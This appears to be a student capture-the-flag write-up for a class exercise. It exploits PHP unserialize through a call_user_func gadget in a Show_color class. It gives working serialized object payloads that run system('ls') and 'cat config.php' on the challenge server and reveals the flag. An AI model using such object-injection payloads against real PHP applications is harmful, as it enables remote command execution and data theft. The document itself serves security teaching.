




## Decription
This is our task from teacher at NT521.ANTT pratical class (Nghi Hoang Khoa) ^^. My team called by **54010N** and you can see us in [CTF Time](https://ctftime.org/team/143012)
As teacher say, our work is find out flag of challenge by exploiting the PHP serialize/deserialize vulnerability.

## The challenge
Link: *http://45.122.249.68:10001*
If you're lazy, you can see the quick code [here](chall.php)

## Analytics
By reading and following the code, we analysed the code and proposed a few judgments (*for convenient in handling, we get the code back local and handle on it*):

**Source code overview**
If `isset($_GET['code']` not null, the site will unserialize the code input which we can put it into the site to request.
The code input is a object type. We have to serialize the code to right format and request to server. **(1)**

**About *class User***
```php
class User{
    private $name;
    private $is_admin = false;
    public function __construct($name){
        $this->$name = $name; //???something went wrong here!!!
    }
    public function __destruct(){
        if($this->is_admin === true){
            echo "hi admin, here is your flag";
        }
    }
}
```
We realize that at the line 5, author uses`$this->$name = $name;` instead of `$this->$name = $name;`.

By *our test below*, we see that the output will add a "54010N" property into User object with the value as same as property's name.

[](images/usertest.png)

Moreover, the `$name` and `$is_admin` properties are changed to `Username` and `Useris_admin` ?? :smile: ??.  *What is special when author make that?* **(2)**

**About *class Show_color***
I put the code of User class here so that you can follow easily:
```php
class Show_color{
    public $color;
    public $type;
    public function __construct($type,$color){
        $this->type = $type;
        $this->color = $color;
    }
     public function __destruct(){
         call_user_func($this->type->adu,$this->color);
     }
}
```

You can see that this class have the `call_user_func()` which have the feature like callback function [(call the callback function)](https://www.php.net/manual/en/function.call-user-func.php). So, here is probably the key of the challege ^^. We can use it to call any the function in program :3.

In line `call_user_func($this->type->adu,$this->color);`, the first parameter will call `$this->type->adu` but *where is `adu` property?*

**About *class do_nothing***
As the class name, it's not relate to something in this challenge.

## Solution

After trying many ways, we was finally find out the way to capture the flag. Let's us begin with step by step!

Remember to the previous section, in User class, *construc()* function use `$this->$name = $name;` instead of `$this->name = $name;` and we had a question in there. At here, everything seemed to mutual matching. We can use `call_user_func()` to force User's class construct a new user object and add a `adu` property into it. And with this way, we will try to use `system("ls")` command to explore some files which is archived on server through `call_user_func()`.

First, we will generate a **adu** user and serialize it to object format.

```php
$user = new User("adu"); //create new user "adu"
$code = serialize($user); //serialize to object format
echo $code;
```
> Output: `O:4:"User":3:{s:10:"Username";N;s:14:"Useris_admin";b:0;s:3:"adu";s:3:"adu";}`

Next, we try to call `call_user_func()` through *Show_color* class to call *"ls"* command.
```php
$user = new User("adu"); //Create new user "adu"
$showcolor = new Show_color($user, 'ls');
$code = serialize($showcolor);
echo $code;
```
> Output: `O:10:"Show_color":2:{s:5:"color";s:2:"ls";s:4:"type";O:4:"User":3:{s:10:"Username";N;s:14:"Useris_admin";b:0;s:3:"adu";s:3:"adu";}}`

Using this output as payload:



The *ls* command is not execute and the server return a error. So we need to repair the payload.
- As mention in **(1)**, `name` and `is_admin` in User's class were added the string *"User"* to head so we need to remove it before request to server.
- We have to change the `is_admin` from `false` to `true` by change the *"is_admin";b:0;"* as *"is_admin";b:1;"* so that we can become a importor as admin.
- Specialy, the server is not compile `system("ls")` command because the `adu` property have *adu* value rather than *system* value. So, the system will be compile *adu("ls")* instead of *system("ls")*. That is the reason why we must to change the value of `adu` property to *"system"*.

Now, let's request by the changed payload: `O:10:"Show_color":2:{s:5:"color";s:2:"ls";s:4:"type";O:4:"User":3:{s:4:"name";N;s:8:"is_admin";b:1;s:3:"adu";s:6:"system";}}`:



Yeah, we are success when execute `system("ls")` on the server. Now our work is checking files and find out the flag because the string *"hi admin, here is your flag"* is not the flag :(((
> Payload: `O:10:"Show_color":2:{s:5:"color";s:14:"cat config.php";s:4:"type";O:4:"User":3:{s:4:"name";N;s:8:"is_admin";b:1;s:3:"adu";s:6:"system";}}`

*Ctrl + U* is shortcut key to view source and it's the way that we captured the flag :3


**Note:**
- *When we changed the payload, the important thing that we need to remember is changing the length of property*
- The final source code here [code.php](code.php)

## Flag
> **flag{n0j_l0j_pk4j_qju_l4y_l0j_dunq_nku_c0n_bu0m_d4u_r0j_l4j_b4y}**

